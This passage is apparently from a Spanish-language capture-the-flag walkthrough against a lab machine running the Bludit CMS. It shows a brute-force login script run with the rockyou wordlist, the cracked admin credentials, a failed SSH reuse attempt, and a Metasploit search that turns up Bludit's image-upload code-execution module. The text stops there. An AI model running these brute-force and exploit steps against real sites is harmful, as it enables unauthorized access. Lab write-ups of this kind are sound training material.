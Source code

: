 Una ves installadas las librerias correctamente, creamos un diccionario con el siguiente nombre:
```bash
users.txt

# contenido
Jaulacon2025
juliacon2025
```

### Ejecucion del Ataque
Ya con el diccionario procedemos a realizar el ataque de fuerza bruta
```bash
python3 Bludit-Auth-Bypass.py -l http://jaulacon2025.thl/admin/login -u user.txt -p /usr/share/wordlists/rockyou.txt
```

Como resultado obtenemos las credenciales correctas de acceso:
```bash
Probando credenciales:   0% | | 999/28688784 [00:29<234:00:54, 34.05credencial/s]

[*] ¡ÉXITO!
[+] Usar credencial -> Jaulacon2025:cassandra
```

Si intentamos conectarnos por ssh con esas credenciales para ver si existe reutilizacion de credenciales, no tuvimos exito
```bash
ssh Jaulacon2025@192.168.100.30 # cassandra
```

Ahora si nos loguemos con esas credenciales en el panel de administracion si que podemos acceder
```bash
http://jaulacon2025.thl/admin/login

username: Jaulacon2025
password: cassandra
```

Despues de intentar manualmente ganar acceso al objetivo, usaremos **metasploit**
### Intrusion
Iniciamos **metasPloit**
```bash
msfconsole
```

Buscamos un exploit para el gestor **CMSBludit**
```bash
search bludit
```

Ahora nos sale este resutaldo:
```bash
 #  Name                                          Disclosure Date  Rank       Check  Description
 -  ----                                          ---------------  ----       -----  -----------
 0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability
```

